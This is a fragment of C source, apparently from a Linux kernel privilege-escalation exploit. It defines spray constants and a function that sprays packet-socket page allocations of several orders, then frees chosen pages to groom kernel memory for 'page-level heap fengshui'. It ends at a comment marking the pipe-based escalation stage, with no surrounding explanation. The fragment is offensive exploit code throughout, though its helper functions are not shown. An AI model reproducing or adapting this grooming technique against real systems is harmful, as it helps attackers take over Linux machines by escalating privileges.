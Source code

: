 ```c
#define PIPE_SPRAY_NUM 200

#define PGV_1PAGE_SPRAY_NUM 0x20

#define PGV_4PAGES_START_IDX PGV_1PAGE_SPRAY_NUM
#define PGV_4PAGES_SPRAY_NUM 0x40

#define PGV_8PAGES_START_IDX (PGV_4PAGES_START_IDX + PGV_4PAGES_SPRAY_NUM)
#define PGV_8PAGES_SPRAY_NUM 0x40

int pgv_1page_start_idx = 0;
int pgv_4pages_start_idx = PGV_4PAGES_START_IDX;
int pgv_8pages_start_idx = PGV_8PAGES_SPRAY_NUM;

/* spray pages in different size for various usages */
void prepare_pgv_pages(void)
{
    /**
     * We want a more clear and continuous memory there, which require us to 
     * make the noise less in allocating order-3 pages.
     * So we pre-allocate the pages for those noisy objects there.
     */
    puts("[*] spray pgv order-0 pages...");
    for (int i = 0; i < PGV_1PAGE_SPRAY_NUM; i++) {
        if (alloc_page(i, 0x1000, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    puts("[*] spray pgv order-2 pages...");
    for (int i = 0; i < PGV_4PAGES_SPRAY_NUM; i++) {
        if (alloc_page(PGV_4PAGES_START_IDX + i, 0x1000 * 4, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    /* spray 8 pages for page-level heap fengshui */
    puts("[*] spray pgv order-3 pages...");
    for (int i = 0; i < PGV_8PAGES_SPRAY_NUM; i++) {
        /* a socket need 1 obj: sock_inode_cache, 19 objs for 1 slub on 4 page*/
        if (i % 19 == 0) {
            free_page(pgv_4pages_start_idx++);
        }

        /* a socket need 1 dentry: dentry, 21 objs for 1 slub on 1 page */
        if (i % 21 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        /* a pgv need 1 obj: kmalloc-8, 512 objs for 1 slub on 1 page*/
        if (i % 512 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        if (alloc_page(PGV_8PAGES_START_IDX + i, 0x1000 * 8, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    puts("");
}

/* for pipe escalation */
```